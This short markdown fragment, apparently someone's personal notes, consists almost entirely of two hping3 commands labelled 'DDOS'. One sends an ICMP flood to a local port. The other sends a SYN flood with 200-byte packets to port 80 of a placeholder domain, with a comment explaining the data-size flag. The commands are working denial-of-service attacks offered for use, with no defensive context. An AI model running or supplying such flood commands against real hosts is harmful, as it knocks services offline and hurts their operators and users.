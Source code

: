 <!-- DDOS SHII -->
sudo hping3 -1 --flood 127.0.0.1:8000

<!-- worst -->
sudo hping3 -d 200 -p 80 -S --flood domain
<!-- -d is data size to send -->

